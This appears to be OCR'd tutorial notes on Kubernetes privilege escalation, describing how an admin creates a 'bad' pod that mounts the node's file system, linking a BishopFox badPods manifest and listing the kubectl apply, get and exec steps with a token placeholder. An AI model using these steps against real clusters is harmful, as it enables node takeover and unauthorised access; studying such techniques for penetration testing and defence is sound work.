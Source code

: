 ## Example:

### If we have admin access to the cluster, we can create any resources we eant.

### We can create a "bad" pod that mounts the node's file system.

## EVERYTHING-ALLOWED-EXEC-POD: https://github.com/BishopFox/badPods/blob/main/manifests/everything-allowed/pod/everything-allowed-exec-pod.yaml

## STEPS:

#### 1) Pull a container image (minikube's local docker registry) 

#### 2) kubectl apply -f BAD_POD.yml --token={TOKEN} (Create the "bad" pod for privesc)

#### 3) kubectl get pods --token={TOKEN}

#### 4) kubectl exec -it BAD_POD --token={TOKEN} -- /bin/bash
